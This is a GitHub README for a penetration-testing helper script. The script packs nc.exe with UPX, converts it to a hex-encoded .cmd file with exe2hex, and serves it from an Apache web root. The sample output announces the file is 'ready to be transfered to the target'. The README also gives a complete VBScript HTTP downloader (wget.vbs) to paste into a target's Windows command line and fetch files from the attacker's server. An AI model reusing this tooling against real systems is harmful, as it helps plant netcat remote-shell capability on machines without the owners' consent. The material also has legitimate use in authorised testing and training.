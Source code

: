 # netcat_for_windows
A small bash script that creates an executable version of netcat for Windows.

This script starts an apache2 webserver, clones nc.exe, converts the clone to hex and moves file to /var/www/html ready to be downloaded for use via the webserver. 

## Usage
This script was written to help send a Windows compatible netcat and make it accessible to be downloaded via the webserver. 

`./necat2hex4ft.sh`

```######################################################################
   This script starts an Apache2 server, clones nc.exe, converts it
             into hex and adds to /var/www/html file
######################################################################
Do you want to continue? y/n: y
                      Apache2 Server Started...
######################################################################
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2020
UPX 3.96        Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 23rd 2020

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
     59392 ->     29696   50.00%    win32/pe     nc.exe                        

Packed 1 file.
[*] exe2hex v1.5.1
[+] Successfully wrote (PoSh) /home/parallels/Tools/nc.cmd
nc.cmd
######################################################################
Success! /var/www/html/nc.cmd is ready to be transfered to the target! 
######################################################################
```



You may need to create a HTTP Downloader which can be done by copying the following code and pasting it to the Windows CLI:


```echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo  Err.Clear >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo  http.Open "GET", strURL, False >> wget.vbs
echo  http.Send >> wget.vbs
echo  varByteArray = http.ResponseBody >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo  Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo  strData = "" >> wget.vbs
echo  strBuffer = "" >> wget.vbs
echo  For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo  ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo  Next >> wget.vbs
echo  ts.Close >> wget.vbs```
